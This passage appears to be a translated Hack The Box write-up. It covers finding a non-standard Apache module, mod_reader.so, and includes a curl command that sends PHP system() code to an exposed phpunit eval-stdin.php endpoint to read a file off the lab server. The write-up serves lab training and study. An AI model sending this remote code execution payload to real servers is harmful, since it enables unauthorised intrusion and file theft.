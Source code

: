```
We recently updated the system but are still experiencing some strange behaviour with the Apache service. We have temporarily moved the web store and database to another server whilst investigations are underway. If for any reason you need access to the database or web application code, get in touch with Mark and he will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin
```

# 可疑的 Apache 模块

这里有一个关于行为不端的 Apache 服务的线索。在模块文件夹中，我注意到这个看起来很奇怪:

![](img/99c99c5a6c311b458d2b004c1e32d2c6.png)

安装的 apache 模块列表

一个时间戳与其他文件不同的 mod 文件。检查 [Debian 软件包文件列表](https://packages.debian.org/sid/amd64/apache2-bin/filelist)我可以看到该文件不是标准发行版的一部分:

```
/usr/lib/apache2/modules/mod_ratelimit.so
/usr/lib/apache2/modules/mod_reflector.so
/usr/lib/apache2/modules/mod_remoteip.so
/usr/lib/apache2/modules/mod_reqtimeout.so
/usr/lib/apache2/modules/mod_request.so
/usr/lib/apache2/modules/mod_rewrite.so
```

所以 mod_reader.so 值得一看，我们把它拉到 Kali:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /usr/lib/apache2/modules/mod_reader.so');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --output mod_reader.so
```

# 与 Ghidra 一起倒车
